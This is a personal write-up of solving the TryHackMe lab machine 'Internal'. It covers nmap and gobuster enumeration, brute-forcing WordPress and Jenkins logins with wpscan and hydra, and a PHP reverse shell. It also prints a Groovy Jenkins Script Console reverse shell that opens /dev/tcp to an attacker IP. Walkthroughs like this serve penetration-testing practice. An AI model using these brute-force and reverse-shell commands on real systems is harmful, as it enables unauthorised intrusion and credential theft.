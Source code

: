 # -Internal- Writeup

First of all this is my first writeup after solving a machine. I solved a few of TryHackme machines before, but these were all a lot more guided and easier and without any rabbit holes (or at least I did not find them).

I hope it helps you to solve this machine like it helped me to read Writeups.

## Introduction
We are going to solve the machine: **Internal** available on [TryHackMe](https://tryhackme.com).  
Before working with the machine, add an entry to your `/etc/hosts` mapping the IP (in my case `10.10.190.47`) to `internal.thm`.

## Recon
I started throwing nmap on the target. With a complete scan with `nmap -A internal.thm` I saw two open ports, 22 and 80.

```
Nmap scan report for internal.thm (10.10.190.47)
Host is up (0.00062s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:9B:4D:A7:14:0D (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

With the `nmap internal.thm --script vuln` command I tried to find some general known vulnerabilities in the services, but without success.

## Enumeration
Then I used gobuster to look for some known directories:
`gobuster dir -u 10.10.190.47 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt`

I found three potentially interesting directories:
```
/blog (Status: 301)
/wordpress (Status: 301)
/phpmyadmin (Status: 301)
```

I decided to try out finding some information about wordpress first. You may also notice that blog and wordpress are pointing to the same application.
Opening the page on `internal.thm/blog` I saw the default installation of WordPress.

### WordPress Enumeration
Knowing that a default WordPress login is accessible via `/blog/wp-admin.php`, I navigated to that page and tested out some credentials.

Wild guessing the user might be `admin`, WordPress told me the password for that user was wrong. 
On the other hand: If I used another, non-existing user, WordPress told me `Uknown username`. 
So now I know `admin` is an existing user, nice!

Let's use another tool from our toolchain: **wpscan**. WPScan has a lot of useful parameters. Using the following command, we can find the password for the admin:
`wpscan --url http://internal.thm/wordpress --usernames 'admin' --passwords /usr/share/wordlists/rockyou.txt`

After a few seconds I found the password for the admin user and few further details.

## Accessing the System and gaining shell access
After logging in I decided to not install a reverse shell plugin, but to include a PHP reverse shell from pentestmonkey into the `404.php` page.

On my system I waited for a connection via `nc -nlvp 1234`.

After opening a random page on the blog, the session opened and I could get shell access.

Looking into `/home`-dir, I found an user `aubreanna`. I could access the user's home dir.

But we know from before that there is also a `phpmyadmin`-instance which is by default placed under `/etc/phpmyadmin`. Via catting the `config-db.php`, I could find the default password for the phpmyadmin-user.

After searching some time for further infos I got a bit stuck. No infos could be found here, no user information etc.

Before looking for further infos, I found an article on WordPress called _Private_. Credentials for the user william were there.
I hoped it was some more-privileged user for SSH but via `cat /etc/passwd` I could verify there is no user with the username `william`. 

Without finding further information, I checked `/opt`-directory since I usually put my apps here and found an maybe interesting file: `wp-save.txt`.

And luckily I found some credentials for aubreanna! :)

![](https://i.imgur.com/Ijbnsya.png)


After using these credentials I was able to find the `user.txt` in the *aubreanna's* home directory and found a flag here. :)

## Privilege Escalation
Next hint in aubreanna's directory was the `jenkins.txt`.
But actually I could see that this Jenkins instance is on another network. I used an SSH tunnel to access this network via the `internal.thm`:

```bash
ssh -L 8888:172.17.0.2:8080 -l aubreanna internal.thm
```
`localhost:8888` showed me the Jenkins login page. I tried to use the credentials exposed on WordPress, but that did not work. 
Maybe I could find something with hydra.

![](https://i.imgur.com/N3SodUC.png)

But which user should I take? After having a short research on that, I found out there might be an `admin` user by default.
With Hydra and a little help of my network console, I saw three things I need for cracking the password:

```
File: /j_acegi_security_check
Request Body: j_username=admin&j_password=admin&from=%2F&Submit=Sign+in
```
Addtionally I know the error when login does not succeed: _Invalid username or password_
So I could construct the hydra-command and replace user and pw with placeholders:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8888 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```

Using this command we found the password for our admin user.

From [this](https://alionder.net/jenkins-script-console-code-exec-reverse-shell-java-deserialization/) site, we can now gain the information of how we can create a reverse shell from Jenkins Script Console (which can be found in Jenkins->Node->master->Script Console):
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.7.212/4321;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

After listening for this via `nc -nlvp 4321`, we are again on another machine.
Guessing to see again some useful info in `/opt`, I check the directory and - quel surprise - we can find a `note.txt`.

![](https://i.imgur.com/pURMR8X.png)

As we can see, we find some relevant info here. ;) 
Let's login to `internal.thm `as root and capture our root-flag.
